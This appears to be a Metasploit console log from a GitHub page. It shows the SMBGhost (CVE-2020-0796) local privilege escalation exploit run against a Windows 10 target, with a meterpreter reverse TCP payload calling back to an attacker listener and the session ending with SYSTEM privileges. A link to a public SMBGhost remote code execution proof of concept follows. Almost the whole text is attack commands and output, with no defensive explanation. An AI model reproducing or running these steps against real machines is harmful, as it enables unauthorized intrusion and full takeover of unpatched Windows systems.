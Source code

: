```
msf6 exploit(multi/handler) > use 4
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2020_0796_smbghost) > show options 
Module options (exploit/windows/local/cve_2020_0796_smbghost):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.142.19   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 10 v1903-1909 x64


msf6 exploit(windows/local/cve_2020_0796_smbghost) > set session 2
session => 2
msf6 exploit(windows/local/cve_2020_0796_smbghost) > check 
[*] The target appears to be vulnerable.
msf6 exploit(windows/local/cve_2020_0796_smbghost) > exploit 

[*] Started reverse TCP handler on 192.168.142.19:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the exploit...
[+] Process 908 launched.
[*] Reflectively injecting the exploit DLL into 908...
[*] Injecting exploit into 908...
[*] Exploit injected. Injecting payload into 908...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.142.61

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

### CVE-2020-0796 RCE EXP

[Github CVE-2020-0796 RCE EXP](https://github.com/chompie1337/SMBGhost_RCE_PoC)
